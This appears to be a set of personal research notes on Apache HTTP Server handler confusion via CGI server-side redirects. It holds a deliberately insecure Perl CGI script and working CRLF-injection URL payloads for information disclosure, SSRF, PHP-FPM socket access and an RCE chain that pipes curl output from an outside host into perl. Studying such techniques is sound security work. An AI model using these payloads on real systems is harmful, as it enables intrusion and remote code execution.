The specification mandates that under certain conditions, CGI must use Server-Side resources to handle redirects. [](https://read.readwise.io/read/01jnnkavghvk4g7aft55aczskw)

I**n Server-Side Redirects, if you can control the response headers, you can invoke any module handler within Httpd**. Basically, all CGI implementations in Apache HTTP Server follow this behavior, and here’s a simple list:
- mod_cgi
- mod_cgid
- mod_wsgi
- mod_uwsgi
- mod_fastcgi
- mod_perl
- mod_asis
- mod_fcgid
- mod_proxy_scgi
- … [](https://read.readwise.io/read/01jnnkcq3e8z7naecv757d7759)


How to trigger this server-side redirect in real-world scenarios? 

Since you need at least control over the response’s `Content-Type` and part of the `Location`, here are two scenarios for reference:
1. CRLF Injection in the CGI response headers, allowing overwriting of existing HTTP headers by new lines.
2. [Server Side Request Forgery (SSRF)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Server%20Side%20Request%20Forgery%20(SSRF).md) that can completely control the response headers, such as a project hosted on `mod_wsgi` like [django-revproxy](https://django-revproxy.readthedocs.io/en/latest/). [](https://read.readwise.io/read/01jnnkdfsrgjr667btty552m27)

Next examples are all based on this insecure CRLF Injection for the purpose of demonstration:
```perl
#!/usr/bin/perl
use CGI;

my $q = CGI->new; 
my $redir = $q->param("r"); 

if ($redir =~ m{^https?://}) { 
	print "Location: $redir\n"; 
} 
	print "Content-Type: text/html\n\n"; 
```

##### ✔️ 3-2-1. Arbitrary Handler to Information Disclosure

Starting with invoking an arbitrary handler to disclose information, we use the built-in `server-status` handler in Apache HTTP Server, which is typically only allowed to be accessed locally:

 ```xml
<Location /server-status> 
	SetHandler server-status 
	Require local 
</Location>
```

With the ability to invoke any handler, it becomes possible to overwrite the `Content-Type` to access sensitive information: [](https://read.readwise.io/read/01jnnkg1m61kk2k41wbs5asb5x)

```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a 
Location:/ooo %0d%0a 
Content-Type:server-status %0d%0a 
%0d%0a
```

 [](https://read.readwise.io/read/01jnnkga8cqja868nkc96jxttm)

##### ✔️ 3-2-2. Arbitrary Handler to Misinterpret Scripts

Transform an image with a legitimate extension into a PHP backdoor. [](https://read.readwise.io/read/01jnnkhxg210dm4th3ha30wyz9). This primitive allows specifying `mod_php` to execute embedded malicious code within the image [](https://read.readwise.io/read/01jnnkj6gzk00z2asm714yq7b0):

```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a 
Location:/uploads/avatar.webp %0d%0a 
Content-Type:application/x-httpd-php %0d%0a 
%0d%0a
```

Calling the `mod_proxy` to access any protocol on any URL is, of course, straightforward: [](https://read.readwise.io/read/01jnnkjy5cpysnrmbyc0t3rdkw)

```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a 
Location:/ooo %0d%0a 
Content-Type:proxy:http://example.com/%3F %0d%0a 
%0d%0a
```

This is also a full-control SSRF where you can control all request headers and obtain all HTTP responses! [](https://read.readwise.io/read/01jnnkkwna6c46bk261jsw53z3)

##### ✔️ 3-2-3. Arbitrary Handler to Access Local Unix Domain Socket

`mod_proxy` offers a more “convenient” feature — it can access local Unix Domain Sockets! [](https://read.readwise.io/read/01jnnkmq36dyka4dc7tdrv0mmp)

Demonstration accessing PHP-FPM’s local Unix Domain Socket to execute a PHP backdoor located in `/tmp/`:
> http://server/cgi-bin/redir.cgi?r=http:// %0d%0a 
> Location:/ooo %0d%0a 
> Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/tmp/ooo.php %0d%0a 
> %0d%0a [](https://read.readwise.io/read/01jnnkn07839z6bkyfkq14ke8z)

##### ✔️ 3-2-4. Arbitrary Handler to RCE

Let’s demonstrate how to transform this primitive into an RCE using a common CTF trick! [](https://read.readwise.io/read/01jnnknmcq2aq6rv044ppp63g8)

The official [PHP Docker](https://hub.docker.com/_/php) image includes PEAR, a command-line PHP package management tool, using its `Pearcmd.php` as an entry point allows us to achieve further exploitation [^1]. You can check this article — [Docker PHP LFI Summary](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html) [](https://read.readwise.io/read/01jnnkp6kb11nht4mgkagwvta8)

We utilize a Command Injection within `run-tests` to complete the entire exploit chain, detailed as follows:
```
http://server/cgi-bin/redir.cgi?r=http:// %0d%0a
Location:/ooo? %2b run-tests %2b -ui %2b $(curl${IFS}orange.tw/x|perl) %2b alltests.php %0d%0a
Content-Type:proxy:unix:/run/php/php-fpm.sock|fcgi://127.0.0.1/usr/local/lib/php/pearcmd.php %0d%0a
%0d%0a
```

[^1]: [LFI2RCE using `pearcmd.php` without file upload [^pearcmd]](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/File%20Inclusion%20(LFI%20&%20RFI).md#LFI2RCE%20using%20`pearcmd.php`%20without%20file%20upload%20[%20pearcmd])
